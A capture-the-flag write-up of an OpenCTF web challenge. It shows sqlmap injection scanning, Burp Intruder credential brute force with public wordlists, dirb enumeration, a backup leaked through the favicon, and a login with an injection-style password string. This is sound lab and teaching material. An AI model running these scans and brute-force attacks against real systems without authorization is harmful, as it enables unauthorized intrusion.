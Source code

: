# webdev

Visiting the webpage we are presented with a simple login form:

```
<html>
<head>
<title>login</title>
</head>
<body>
<h3>missing login/password</h3>
<form method="post">
<label for="login">login</label> <input type="text" name="login" /><br />
<label for="password">password</label> <input type="password" name="password" /><br />
<button type="submit">Login</button>
</form>
</body>
</html>
```

## sqlmap

We try logging in using credentials admin:admin and use burp to capture the
request. The login is not successful. Selecting the request, we can copy the
raw content to a file naming it login.req.

```
POST / HTTP/1.1
Host: webdev.openctf.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://webdev.openctf.com/
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 26

login=admin&password=admin
```

We start sqlmap running in the background to look for sql injections:

```
$ sqlmap --random-agent --level 5 --risk 3 --force-ssl -r login.req
```

## burp intruder

While sqlmap is running, we use burp to setup an intruder attack to brute force
the login credentials. Since we didn't leak any information about possible
usernames, we grab lists of default usernames and passwords from
https://github.com/danielmiessler/SecLists:

* Usernames/top-usernames-shortlist.txt
* Passwords/darkweb2017-top100.txt

## dirb

Having sqlmap and burp intruder running, we start dirb to look for files and
subdirectories to see if we can increase the attack surface:

```
$ dirb https://webdev.openctf.com/

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sun Aug 12 17:13:54 2018
URL_BASE: https://webdev.openctf.com/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: https://webdev.openctf.com/ ----
+ http://webdev.openctf.com/index.php (CODE:200|SIZE:326)
+ http://webdev.openctf.com/favicon.ico (CODE:200|SIZE:3584)
```

## ???

Our background tasks of sqlmap, burp and dirb didn't return anything
interesting. sqlmap didn't find any potential sql injections, burp intruder
didn't find any valid logins and dirb found only index.php and favicon.ico.

One thing to note is that favicon.ico had an unusual file size of 3.5K.

## favicon.ico

We wget the favicon.ico and see that it's a tar archive containing two files:

```
$ wget https://webdev.openctf.com/favicon.ico
$ file favicon.ico
favicon.ico: POSIX tar archive
$ tar tf favicon.ico
index.php
wwwbackup.sh
```

We extract and view the files:

```
$ tar xvf favicon.ico
index.php
wwwbackup.sh
```

### wwwbackup.sh

```
#!/bin/sh

tar cf *

```

### index.php

```
<?php
$message = 'please login';

if ($_POST) {
  if ((!empty($_POST['login'])) && (!empty($_POST['password']))) {
    if ($_POST['login'] === 'scavengerhunt') {
      if ($_POST['password'] === "'; drop database dignity; --") {
        $message = hash_file('md5', 'favicon.ico');
      } else {
        $message = 'invalid password';
      }
    } else {
      $message = 'invalid login';
    }
  }
} else {
  $message = 'missing login/password';
}
?>
<html>
<head>
<title>login</title>
</head>
<body>
<h3><?php echo($message); ?></h3>
<form method="post">
<label for="login">login</label> <input type="text" name="login" /><br />
<label for="password">password</label> <input type="password" name="password" /><br />
<button type="submit">Login</button>
</form>
</body>
</html>
```

We use the username `scavengerhunt` and password `'; drop database dignity; --`
to login. When doing this we receive the string
`7c6515ecfe20b1004f89d46849bad893` from the server. This matches the md5sum
when hashing the file locally:

```
$ md5sum favicon.ico
7c6515ecfe20b1004f89d46849bad893  favicon.ico
```

Submitting the md5sum we receive the flag.
